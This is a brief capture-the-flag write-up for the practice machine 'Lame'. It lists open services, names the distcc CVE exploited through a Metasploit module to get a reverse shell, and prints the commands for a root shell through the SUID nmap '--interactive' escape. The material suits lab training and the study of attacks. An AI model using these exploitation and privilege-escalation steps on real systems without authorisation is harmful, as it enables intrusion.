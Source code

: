 # Lame

### Reconnaissance

- port 21/tcp FTP vsftpd 2.3.4
- port 22/tcp SSH OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
- port 139/tcp netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
- port 445/tcp SMB Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
- port 3632/tcp distccd distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))

Target is vulnerable to CVE 2004-2687 allowing RCE through port 3632

### Exploitation

Running metsaploit's distcc_exec module grants us a reverse shell on the target

### Privilege Escalation

Nmap has the SUID bit set in /usr/bin/nmap allowing us access to a root shell

```
nmap --interactive
nmap> !sh
# whoami
root
```

*Note: The official walkthrough exploits the vulnerable Samba version to gain a root shell directly*

